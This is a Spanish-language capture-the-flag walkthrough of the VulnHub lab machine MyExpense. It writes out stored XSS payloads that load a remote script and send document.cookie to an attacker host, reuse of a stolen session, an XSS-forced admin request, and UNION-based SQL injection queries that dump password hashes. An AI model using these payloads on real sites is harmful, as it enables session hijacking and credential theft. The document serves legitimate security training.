___
Tags: #Cross-SiteScripting #SQLI #xss #SessionHijacking
___
# My expense

## Información General


**- Dificultad:** Medium <br>
**- Sistema operativo:** Linux <br>
**- Vulnerabilidad explotada.**  SQLI, XSS, Session Hijacking <br>
**- Fecha de resolución:** 12/03/2026 <br>
**- Enlace:** [My expense](https://www.vulnhub.com/entry/myexpense-1,405/)

## Reconocimiento

**Vulnhub** nos proporciona la ip de la máquina objetivo **192.168.0.107**

**ARP-SCAN**

Ejecutamos el siguiente comando:

```
sudo arp-scan -I eth0 --localnet --ignoredups
```

<p align="center"> 

</p>

### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 192.168.0.107
```

**Su ttl es 64. Por tanto, es Linux**

## Enumeración

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 192.1638.0.107
```

<p align="center"> 

</p>

| Open port | Service | Version                        |
| --------- | ------- | ------------------------------ |
| 80        | http    | Apache httpd 2.4.25 ((Debian)) |

### Enumeración web

#### Gobuster

```
gobuster dir -u http://192.168.0.107 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```

<p align="center"> 

</p>

```
gobuster dir -u http://192.168.0.107/admin/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```

<p align="center"> 

</p>

## Explotación

> http://192.168.0.107/admin/admin.php

<p align="center"> 

</p>

Estando en el panel de administración, me doy cuenta que mi usuario *Samuel* está deshabilitado, la idea sería habilitarlo, para poder conseguir mandar mi reporte de los gastos que realicé en mi último trabajo.

Credenciales del usuario Samuel:
**slamotte**/**fzghn4lw**

Si me intento logear, me saldrá el siguiente mensaje:

<p align="center"> 

</p>

### XSS

Descubro un panel de registro de usuario, pruebo registrarme y además en el apartado **Firstname** y **Lastname** intento explotar la vulnerabilidad **XSS** mediante ese comando:

```
<script>alert("XSS")</script>
```

<p align="center"> 

</p>

Para poder habilitar el botón **Sign up !** nos tendremos que ir al código fuente de la página y colocarnos en el código del botón y borrar donde pone **disabled=""**

<p align="center"> 

</p>

Cuando creeamos el usuario correctamente nos saldrá el siguiente mensaje:

**<font color="#2DC26B">Your account was successfully created !</font>**

Si nos situamos luego en la página **http://192.168.0.107/admin/admin.php**

Nos damos cuenta que acepta ataque XSS, pero nuestro usuario Daniel esta deshabilitado

<p align="center"> 

</p>

En este caso, la idea aquí sería intentar saber, si hay alguien que intente visitar esta página, para ello hacemo lo siguiente:

```
python -m http.server 80 
```

En el puerto 80 es donde reside la pagina web que intento acceder

Usare este ataque xss:

```
<script src="http://192.168.0.108/pwned.js"></script>
```

Cuyo archivo que no existe, (aún)

<p align="center"> 

</p>

Habilitamos el botón y .... **Atención: Cambia de usuario y correo cada vez que vas a realizar estos tipos de ataque**

<p align="center"> 

</p>

Observamos que hay un usuario autentificado que intenta acceder a la página, ahora la idea sería de pillar su cookie de sesión para saber quien es el que visita la pagina, para ello haremos el siguiente script en javascript un **Cross-Site Scripting**


```js
var request = new XMLHttpRequest();
request.open ('GET', 'http://<IP de la maquina atacante>/?cookie=' + document.cookie);
request.send();
```

>Crea un objeto XMLHttpRequest para hacer peticiones HTTP asíncronas (AJAX).
>Prepara una petición GET a tu servidor atacante (192.168.0.107) con:
>document.cookie: Lee TODAS las cookies del sitio vulnerable
>Las concatena en la URL como parámetro ?cookie=
>Envía la petición silenciosamente. El servidor atacante recibe algo como:

<p align="center"> 

</p>

Luego en el codigo fuente de la pagina nos iremos **storage** - **PHPSESSID**

<p align="center"> 

</p>

Me sale el siguiente mensaje **<font color="#c00000">Sorry, as an administrator, you can be authenticated only once a time.</font>** Tras este mensaje, no puedo ser el usuario administrador, pero si que puedo hacer el administrador me haga la tarea de habilitar el usuario. Por tanto, editaremos el scripting pwned.js

La clave será trabajar con esta url, que es la que dice que esta activo o no el usuario

> http://192.168.0.107/admin/admin.php?id=11&status=active

<p align="center"> 

</p>

```php
var request = new XMLHttpRequest();
request.open ('GET', 'http://192.168.0.107/admin/admin.php?id=11&status=active');
request.send();
```

Habilito de nuevo el servidor para saber que información me capta:

```
python -m http.server 80
```

<p align="center"> 

</p>

Esta activa la cuenta!

Una vez iniciado a la cuenta en el apartado **Expense reports** nos encontramos con nuestro reporte que no ha sido enviado

<p align="center"> 

</p>

Luego hay que averiguar quien es nuestro manager para que pueda aceptar nuestro reporte, en el perfil del usuario podemos encontrar quien es

<p align="center"> 

</p>

Después, si nos situamos en la página principal nos encontramos un chat donde aparece que conversa el manager, por tanto la idea aquí es realizar un ataque xss

<p align="center"> 

</p>

El xss para el chat, que es muy parecido al que usamos en el ataque registro de usuario

```js
var request = new XMLHttpRequest();
request.open ('GET', 'http://192.168.0.108:4646/?cookie=' + document.cookie);
request.send();
```

Luego en el chat, realizamos el siguiente comando:

```js
<script src="http://192.168.0.108:4646/pwned.js"></script>
```

<p align="center"> 

</p>

Por último establecemos un puerto de escucha:

```
python -m http.server 4646
```

<p align="center"> 

</p>

A continuación, veremos diferentes cookie de session, que puede probar, la idea ahora es coger la cookie de session del **manager**

Esta cookiee **g2qhgfvsque87b0unkckek6355** es de la sesion de la cuenta Manon Riviere

**Codigo fuente** - **Storage** - **Cookies** (Reiniciamos la pagina)

<p align="center"> 

</p>

Nos situamos en el apartado **Expense reports** y aceptamos la demanda 

<p align="center"> 

</p>

Después, si nos situamos en el perfil de **Manon Riviere** Observamos que su Manager es un tal **Paul Baudouin**, si nos vamos luego donde estaban todos los usuarios registrados, observamos que Riviere tiene el Rol de **aprobación financiera**

<p align="center"> 


</p>

En el apartado **Rennes**, podemos explotar la vulnerabilidad Inyecciones SQL 

<p align="center"> 

</p>

### SQLI

En primer lugar, cuando estamos antes un SQLI tenemos que saber como debemos de comentar lo que sigue después de la consulta, en este caso sería:

```
http://192.168.0.107/site.php?id=2-- -
```

En segundo lugar, ¿Cómo saber el numero de columnas?, ¿Cómo nos guiamos si vamos en buen camino?, de que NO salga este error:

<p align="center"> 

</p>

```
http://192.168.0.107/site.php?id=2 order by 2-- -
```

En tercer lugar, con el siguiente comando obtenemos nuestro primer punto de entrada

```
http://192.168.0.107/site.php?id=2 union select 1,user()-- -
```

<p align="center"> 

</p>

En cuarto lugar, buscamos la bbdd **myexpense**

```
http://192.168.0.107/site.php?id=2 union select 1, schema_name from information_schema.schemata-- -
```

<p align="center"> 

</p>

En quinto lugar, indagamos dentro de la tabla **expense**

```
http://192.168.0.107/site.php?id=2 union select 1, table_name from information_schema.tables where table_schema='myexpense'-- -
```

<p align="center"> 

</p>

En sexto lugar, indagamos en las columnas **username** y **password**

```
http://192.168.0.107/site.php?id=2 union select 1, column_name from information_schema.columns where table_schema='myexpense' and table_name='user'-- -
```

<p align="center"> 

</p>

En séptimo lugar, buscamos usuario y contraseña en las columnas anteriormente encontradas.

```
http://192.168.0.107/site.php?id=2 union select 1, group_concat(username,0x3a,password) from user-- -
```

<p align="center"> 

</p>

En esta [pagina](https://hashes.com/en/decrypt/hash) Desecriptamos la contraseña del usuario **pbaudouin**

<p align="center"> 

</p>

Iniciamos sesión, luego en el apartado **Expense reports** aceptamos el dinero que nos debe la empresa:

<p align="center"> 

</p>

<font color="#00b050">The expense report is sent for payment successfully !</font>

## Conclusión

La máquina _MyExpense_ de VulnHub me ha parecido una experiencia fantástica para comprender y practicar la explotación de vulnerabilidades como **XSS** y **SQL Injection**. La considero una máquina bastante completa, ya que combina a la perfección la parte técnica con un enfoque didáctico que permite afianzar conceptos clave de seguridad web.

Sinceramente, he disfrutado el proceso de principio a fin; cada etapa del reto me ha aportado nuevos conocimientos y una visión más clara de cómo se encadenan las vulnerabilidades para lograr la explotación final.